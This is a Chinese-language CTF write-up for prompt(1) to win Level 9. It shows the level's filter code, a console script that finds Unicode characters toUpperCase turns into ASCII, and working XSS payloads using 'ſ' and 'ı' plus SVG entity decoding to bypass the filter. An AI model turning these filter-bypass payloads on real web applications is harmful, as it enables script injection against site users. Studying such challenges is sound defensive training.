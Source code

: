 ## [[prompt(1) to win](http://prompt.ml)] [[Level 9 - ECMAScript](http://prompt.ml/9)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-9-ecmascript/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

## 解题报告

### 利用 toUpperCase

这题用正则 `<([a-zA-Z])` 把所有正常标签都过滤成了 `<_` ，而我们的输入内容都在 `<h1>` 标签里面，导致常规可以注入 JS 的标签基本都失效。

不过注意到题目会把我们输入的内容使用 `toUpperCase` 方法全部转换成大写。

一般情况下这个方法只对 ASCII 小写字母起作用，但是根据 [ECAMScript 定义](http://ecma-international.org/ecma-262/5.1/#sec-15.5.4.18)，这个方法对部分 Unicode 字符也会起作用，即它有意把某些 Unicode 字符映射到某些 ASCII 字符（串）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/01.png)

但是我们不清楚这个具体的映射表是什么，是否可利用。

于是我简单写了这个 JS 代码，拷贝到浏览器的控制台运行，即可把 Unicode 通过 `toUpperCase` 方法映射到 ASCII 的映射表打印出来（*此代码只打印了 XSS 可能会用到的 ASCII 字符，并未把全部字符列印*）：

```javascript
UNICODE_RANGE = 65000;
XSS_ASCII_RANGE = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`\r\n"
for (i = 0; i < UNICODE_RANGE; i++) {
    raw_ch = String.fromCharCode(i)
    low_ch = "";
    upp_ch = "";

    if (XSS_ASCII_RANGE.includes(raw_ch.toLowerCase())) {
        low_ch = raw_ch.toLowerCase();
    }

    if (XSS_ASCII_RANGE.includes(raw_ch.toUpperCase())) {
        upp_ch = raw_ch.toUpperCase();
    }

    if ((low_ch != "" || upp_ch != "") && !(XSS_ASCII_RANGE.includes(raw_ch))) {
        console.log(
            "Unicode-Idx: [" + i + "], " + 
            "Raw-Unicode: [" + raw_ch + "], " + 
            "Unicode-Hex: [\\u" + (i).toString(16) + "], " + 
            "To-LowerCase-ASCII: [" + low_ch + "], " + 
            "To-UpperCase-ASCII: [" + upp_ch + "]");
    }
}
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/02.png)

用运行结果来看，有两个字符的映射是明显对我们有用的：

- Unicode 的 `ı` 通过 `toUpperCase` 会被转换成 ASCII 的 `I`
- Unicode 的 `ſ` 通过 `toUpperCase` 会被转换成 ASCII 的 `S`

> 可以映射到 `ST` 的两个字符 `ﬅ` 或 `ﬆ` 也是可以利用的，只是相对没那么方便。

换言之，只要我们输入 `<ı` 或 `<ſ` ，即可绕过题目对标签名的正则过滤，而题目的 `toUpperCase` 方法又会帮我们将他们转换成 `<I` 或 `<S` 。

由于 HTML 的标签名和属性名都是大小写不敏感的，因此我们就可以利用这个特点，注入以 `I` 或 `S` 开头的标签。

由此首先想到可以的标签就有 3 个 ： `<IMG>` 、`<SCRIPT>` 、`<SVG>`

------------


### 绕过 toUpperCase

于是尝试注入 payload `<ımg src=0 onerror=prompt(1) />`

虽然成功注入为 `<IMG SRC=0 ONERROR=PROMPT(1) />` ，但是在触发 `onerror` 事件时报错：

`Uncaught ReferenceError: PROMPT is not defined`

原因是 JS 对函数名是大小写敏感的，而 `prompt` 也被转换成了大写。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/03.png)

此时我想到可以利用 `<svg>` **运行时才解析实体编码**的特性，对大写转换进行绕过。

即先把 `prompt` 编码成 `&#112;&#114;&#111;&#109;&#112;&#116;` ，这样实体编码在输出到前端之前， `toUpperCase` 对它就不起作用了。

然后再使用 `<svg>` 标签包围实体编码，实体编码就能在输出到前端后、在运行时被解析还原成 `prompt` 。

于是把 payload 修改成这样，完成挑战：

`<ſvg><ımg src=0 onerror=&#112;&#114;&#111;&#109;&#112;&#116;(1) /></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/04.png)

这个 payload 也是可以完成挑战的，相对简单点：

`<ſvg><ſcript>&#112;&#114;&#111;&#109;&#112;&#116;(1)</script></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/05.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
